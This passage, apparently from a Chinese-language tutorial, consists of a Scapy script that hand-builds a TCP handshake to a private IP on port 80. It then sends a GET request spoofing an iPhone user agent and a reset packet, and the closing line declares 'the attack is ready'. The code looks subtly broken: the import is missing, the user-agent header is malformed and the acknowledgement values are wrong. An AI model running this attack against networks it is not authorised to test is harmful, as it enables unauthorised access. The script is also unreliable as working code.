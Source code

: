 ```
import random
```

```
CPIPADDRESS = "192.168.108.239"
```

```
SOURCEP = random.randint(1024,65535)
```

```
ip = IP(dst=CPIPADDRESS, flags="DF", ttl=64)
```

```
tcpopt = [("MSS",1460), ("NOP",None), ("WScale",2), ("NOP",None), ("NOP",None), ("Timestamp",(123,0)), ("SAckOK",""), ("EOL",None)]
```

```
SYN = TCP(sport=SOURCEP, dport=80, flags="S", seq=1000, window=0xffff, options=tcpopt)
```

```
SYNACK = sr1(ip/SYN)
```

```
ACK = TCP(sport=SOURCEP, dport=80, flags="A", seq=SYNACK.ack+1, ack=SYNACK.seq+1, window=0xffff)
```

```
send(ip/ACK)
```

```
request = "GET / HTTP/1.1\r\nHost: " + CPIPADDRESS + "\rMozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148\r\n\r\n"
```

```
PUSH = TCP(sport=SOURCEP, dport=80, flags="PA", seq=1001, ack=0, window=0xffff)
```

```
send(ip/PUSH/request)
```

```
RST = TCP(sport=SOURCEP, dport=80, flags="R", seq=1001, ack=0, window=0xffff)
```

```
send(ip/RST)
```

一旦我在 nano 中完成输入，我将其保存为 `.py` 文件并使用 `chmod` 命令设置为可执行。就这样——攻击准备就绪：
